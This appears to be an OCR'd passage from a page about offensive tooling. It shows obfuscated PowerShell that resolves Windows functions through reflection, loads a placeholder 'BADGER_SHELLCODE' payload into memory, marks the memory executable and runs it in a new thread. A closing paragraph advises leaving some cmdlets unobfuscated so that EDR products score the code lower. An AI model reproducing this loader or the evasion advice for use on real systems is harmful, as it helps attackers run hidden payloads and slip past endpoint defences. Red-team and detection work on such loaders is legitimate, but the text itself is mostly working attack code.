 ```text
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```

Some cmdlets and functions are kept in their original state to create an application that can still confuse reverse 
engineers after detection but may not look immediately suspicious. If a malware developer were to obfuscate all 
cmdlets and functions, it would raise the entropy in both interpreted and compiled languages resulting in higher 
EDR alert scores. It could also lead to an interpreted snippet appearing suspicious in logs if it is seemingly 
random or visibly heavily obfuscated.
